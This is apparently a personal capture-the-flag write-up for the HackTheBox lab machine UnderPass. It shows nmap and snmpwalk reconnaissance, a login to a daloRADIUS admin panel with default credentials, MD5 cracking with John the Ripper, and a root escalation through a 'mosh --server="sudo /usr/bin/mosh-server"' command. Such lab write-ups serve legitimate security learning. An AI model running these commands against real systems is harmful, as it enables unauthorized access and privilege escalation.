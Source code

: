 # UnderPass
SNMP disclosure, Default authentication vulnerability and Mosh

- `10.10.11.48`
- Linux
- Easy

It's been a minute for me, lets take a crack at it! 

Start with `nmap` of course.

    nmap -sC -sV -vv 10.10.11.48

Looks like we get responses from the `SSH` port `22` and `HTTP` on port `80`.

    PORT   STATE SERVICE REASON  VERSION
    22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
    |   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91 
    80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
    | http-methods:
    |_  Supported Methods: POST OPTIONS HEAD GET
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Visiting the index page for the web server at `http://10.10.11.48/` yields the default apache page.

We can try to brute force web directories with and virtual hosts with `gobuster`.

However, it doesn't seem like there's any common routes on this web server... 

The machine doesn't seem to host any `DNS` server. let's do a full port scan.

    nmap -sS -p- -vv underpass.htb

Same thing.

    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack ttl 63
    80/tcp open  http    syn-ack ttl 63


Hmm... what about `UDP`?

    nmap -sU -vv underpass.htb

Oh! looks like we have `SNMP` related things?

    PORT     STATE         SERVICE REASON
    161/udp  open          snmp    udp-response ttl 63
    1812/udp open|filtered radius  no-response
    1813/udp open|filtered radacct no-response

Okay, down the `SNMP` rabbit hole.

found a useful command called `snmpwalk` which dumps public `SNMP` records. 

Apparently version `3` of `SNMP` introduces stronger authentication so its always worthwhile to try the weaker versions of the protocol first.

Just for future reference. `SNMP` version `2c` and below uses something like a password to protect the data called a `community string`.

Don't ask me why `2c` is called `2c` instead of `2`. I didn't look into it.

For publicly available data, usually that password is something like `public`. According to
some older sources, it looks like `private` is also a common default community string. 

Running this command will dump all the public records using the `2c` version of the protocol.

    snmpwalk -v 2c -c public underpass.htb

Looks like we found a username, super useful. This looks like something that could even be found in the wild.

    SNMPv2-MIB::sysDescr.0 = STRING: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
    SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
    DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (4135752) 11:29:17.52
    SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
    SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!
    SNMPv2-MIB::sysLocation.0 = STRING: Nevada, U.S.A. but not Vegas


We also found what looks like the name of a service. `daloradius`. 

Doing a quick search online, [that's exactly what it is.](https://github.com/lirantal/daloradius.git).  

Found `/daloradius/app/users/login.php` which will allow me to log into the application.  

Maybe from here we can gather the version of the webserver and look for any CVEs. 

Tried all the default credentials in the README but no luck... 

_~about 2 hours pass~_

Okay, so i was messing around some more and this is why it's important to double check things. 

`/daloradius/app/users/login.php` is for regular users.

`/daloradius/app/operators/login.php` is for admins. 

![daloradius-admin](/static/media/ctf/htb-daloradius.png)

Anyway... It's important to reset the default password after installing one of these dashboards. Otherwise _anyone_ could just read the GitHub documentation and log in. 

I found one user named `svcMosh` in the users list. The word `Mosh` leads me to believe that the program `Mosh` is involved somehow, but we'll have to see. 

When we go the users page, an `MD5` hash for our user is seemingly right here in the UI. 

`412DD4...` is the first 6 characters of the hash. You can see for yourself what the rest of the chracters are. We're going to save this into `md5sum.txt`. 

    john --wordlist=./rockyou.txt --format=Raw-MD5 ./md5sum.txt

[John the Ripper](https://www.openwall.com/john/) will make short work of this hash with the `rockyou.txt` wordlist. 

Okay... Using those creds with `SSH` doesnt seem to do anything. not with `steve` or `svcmosh`. 

Maybe this is just something that will come in handy later? 

...`version 2.2 beta / 03 Jul 2024` so maybe no SQLi like we see on `exploitdb`... 

_~about 2 more hours pass~_

I WAS BEING DUMB. CASE MATTERS! 

`ssh svcMosh@underpass.htb` with the cracked hash gives us a user on the box. 

![dalradius-user-shell](/static/media/ctf/htb-daloradius-user.png)

Yay!

The first thing to do is check if we straight up have root privs for anything, so `sudo -l` which gives us the interesting path of `/usr/bin/mosh-server`. 

    Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

    User svcMosh may run the following commands on localhost:
        (ALL) NOPASSWD: /usr/bin/mosh-server

I will save you the wasted time and effort I made while trying to crack this, but this is kinda sneaky. 

The program `mosh` works by running `mosh-client` to interact with `SSH`, and then running a command through `SSH` to start `mosh-server` on the remote machine. 

The `mosh` command has an argument called `--server` which is _what I thought was_ a strict path, however it's perfectly valid to supply arguments as well. 

Seeing this, there's nothing stopping us from supplying `sudo /usr/bin/mosh-server` for the path. 

    mosh --server="sudo /usr/bin/mosh-server" localhost
    
Drops us into a root shell. 

![dalradius-root-shell](/static/media/ctf/htb-daloradius-root.png)

Nice! 

I would say this machine is very easy. I was able to figure it out without any help except for the `SNMP` foothold, but that was minimal. 

_~ Happy Hacking_
